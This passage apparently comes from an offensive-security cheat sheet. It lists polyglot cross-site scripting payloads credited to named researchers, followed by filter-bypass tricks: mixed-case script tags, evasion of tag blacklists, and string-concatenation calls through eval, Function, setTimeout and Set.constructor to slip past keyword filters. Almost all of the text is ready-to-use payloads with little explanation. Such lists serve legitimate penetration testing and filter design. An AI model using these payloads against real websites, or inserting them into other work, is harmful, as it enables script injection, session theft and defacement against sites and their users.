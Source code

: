 Polyglot XSS - [@s0md3v](https://twitter.com/s0md3v/status/966175714302144514)
![https://pbs.twimg.com/media/DWiLk3UX4AE0jJs.jpg](https://pbs.twimg.com/media/DWiLk3UX4AE0jJs.jpg)

```javascript
-->'"/></sCript><svG x=">" onload=(co\u006efirm)``>
```

![https://pbs.twimg.com/media/DWfIizMVwAE2b0g.jpg:large](https://pbs.twimg.com/media/DWfIizMVwAE2b0g.jpg:large)

```javascript
<svg%0Ao%00nload=%09((pro\u006dpt))()//
```

Polyglot XSS - from
[@filedescriptor's Polyglot Challenge](http://polyglot.innerht.ml)

```javascript
# by crlf
javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html \" onmouseover=/*&lt;svg/*/onload=alert()//>

# by europa
javascript:"/*'/*`/*\" /*</title></style></textarea></noscript></noembed></template></script/-->&lt;svg/onload=/*<html/*/onmouseover=alert()//>

# by EdOverflow
javascript:"/*\"/*`/*' /*</template></textarea></noembed></noscript></title></style></script>-->&lt;svg onload=/*<html/*/onmouseover=alert()//>

# by h1/ragnar
javascript:`//"//\"//</title></textarea></style></noscript></noembed></script></template>&lt;svg/onload='/*--><html */ onmouseover=alert()//'>`
```

## Filter Bypass and exotic payloads

### Bypass case sensitive

```javascript
<sCrIpt>alert(1)</ScRipt>
```

### Bypass tag blacklist

```javascript
<script x>
<script x>alert('XSS')<script y>
```

### Bypass word blacklist with code evaluation

````javascript
eval("ale" + "rt(0)");
Function("ale" + "rt(1)")();
new Function`al\ert\`6\``();
setTimeout("ale" + "rt(2)");
setInterval("ale" + "rt(10)");
Set.constructor("ale" + "rt(13)")();
Set.constructor`al\x65rt\x2814\x29```;
````
